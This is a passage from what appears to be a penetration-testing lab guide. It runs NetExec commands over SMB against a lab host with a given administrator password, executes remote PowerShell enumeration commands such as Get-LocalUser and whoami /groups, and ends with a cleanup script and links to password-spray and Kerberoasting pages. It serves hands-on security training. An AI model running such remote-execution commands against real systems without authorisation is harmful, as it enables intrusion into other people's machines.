nxc smb 10.10.83.124 -u 'NetExecAdmin' -p 'BeSur3T0Ch@ng31t' -X 'Get-LocalUser'
```



```bash
nxc smb 10.10.83.124 -u 'NetExecAdmin' -p 'BeSur3T0Ch@ng31t' -X 'whoami /groups'
```



```bash
nxc smb 10.10.83.124 -u 'NetExecAdmin' -p 'BeSur3T0Ch@ng31t' -X 'Get-NetIPAddress'
```



```bash
nxc smb 10.10.83.124 -u 'NetExecAdmin' -p 'BeSur3T0Ch@ng31t' -X 'Get-Process | Select-Object -First 10'
```




## Cleanup

At a powershell run the following commands:

```bash
cd C:\Users\Administrator\Desktop\Labs\netexec
```

```bash
.\delete_users.ps1
```


---

# Finished?

[Back to Internal_Password_Spray Main Page](/Decks/CORE_v3.1/PE/Internal_Password_Spray.md)

[Back to Kerberoasting Main Page](/Decks/CORE_v3.1/PE/Kerberoasting.md)
